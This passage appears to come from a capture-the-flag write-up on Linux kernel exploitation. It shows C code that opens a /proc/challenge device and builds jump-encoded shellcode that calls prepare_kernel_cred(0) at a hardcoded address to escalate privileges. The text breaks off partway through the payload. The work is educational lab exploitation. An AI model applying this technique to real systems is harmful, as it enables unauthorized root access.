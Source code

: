 This function is still in userland so we can execute it normally. After saving current state, we need to open the device to interact with it:

```c
unsigned long long int glob_fd;
void open_device()
{
	glob_fd = open("/proc/challenge", O_RDWR);
	if (glob_fd < 0)
	{
		puts("[!] Failed to open device");
		exit(-1);
	}
	else
		puts("[*] Opened device");
}
```

When we opened device, we need to write our payload. It's time to craft our payload for the kernel.

### Stage 2: Execute prepare_kernel_cred()

We need to get the address of function prepare_kernel_cred(). We can check the file `/proc/kallsyms` for all the addresses of functions:

![get-addr-prepare-kernel-cred.png](images/get-addr-prepare-kernel-cred.png)

The address for function prepare_kernel_cred() is `0xffffffff81084d30`. To write our shellcode, we will do the trick as I have explained above so we have the following code:

```c
char payload[0x1000];
void generate_payload()
{
	unsigned int *p = (unsigned int *)payload;
	unsigned int i = 0;

	/////////////////////////////////////////////////////
	////// Stage 2: Execute prepare_kernel_cred(0) //////
	/////////////////////////////////////////////////////
	// mov eax, 0xffffffff
	i += sprintf(&payload[i], "jmp %u\n", 12*1+10*0+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d55ffffffffb8LL);

	// shl rax, 32
	i += sprintf(&payload[i], "jmp %u\n", 12*2+10*1+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d555d20e0c148LL);

	// mov edx, 0x81084d30
	i += sprintf(&payload[i], "jmp %u\n", 12*3+10*2+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d5581084d30baLL);

	// or rax, rdx
	i += sprintf(&payload[i], "jmp %u\n", 12*4+10*3+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d555d55d00948LL);

	// xor rdi, rdi ; call rax
	i += sprintf(&payload[i], "jmp %u\n", 12*5+10*4+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d55d0ffff3148LL);

	// mov rcx, rax
```